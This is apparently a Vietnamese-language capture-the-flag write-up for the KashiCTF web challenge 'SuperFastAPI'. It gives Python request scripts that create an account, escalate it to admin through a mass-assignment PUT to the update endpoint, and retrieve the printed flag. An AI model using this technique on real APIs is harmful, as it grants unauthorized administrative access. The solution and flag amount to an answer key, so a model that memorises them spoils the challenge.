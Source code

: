# Web

## SuperFastAPI

### Tìm endpoint
Dùng redoc để tìm tài liệu API:

```
http://kashictf.iitbhucybersec.in:35798/redoc
```

### Phát hiện các endpoint quan trọng:

- `/create/{username}` → Tạo tài khoản
- `/update/{username}` → Cập nhật thông tin tài khoản
- `/flag/{username}` → Lấy flag

Tạo tài khoản
Gửi request để tạo tài khoản của mình:

```python
import requests

username = "abc"
url = f"http://kashictf.iitbhucybersec.in:35798/create/{username}"
headers = {
    "Content-Type": "application/json"
}
data = {
    "fname": "John",
    "lname": "Doe",
    "email": "john@example.com",
    "gender": "male"
}

response = requests.post(url, headers=headers, json=data)
print(response.status_code, response.text)

```


Sửa role và lấy flag:

```python
import requests

username = "abc"
update_url = f"http://kashictf.iitbhucybersec.in:35798/update/{username}"
flag_url = f"http://kashictf.iitbhucybersec.in:35798/flag/{username}"

headers = {
    "Content-Type": "application/json"
}

update_data = {
    "role": "admin"
}

update_response = requests.put(update_url, headers=headers, json=update_data)
print("[+] Update Response:", update_response.status_code, update_response.text)

if update_response.status_code == 200:
    flag_response = requests.get(flag_url)
    print("[+] Flag:", flag_response.text)
else:
    print("[-] Error!")

```

Kết quả:
```
KashiCTF{m455_4551gnm3n7_ftw_LBBJ23ZSV}
```
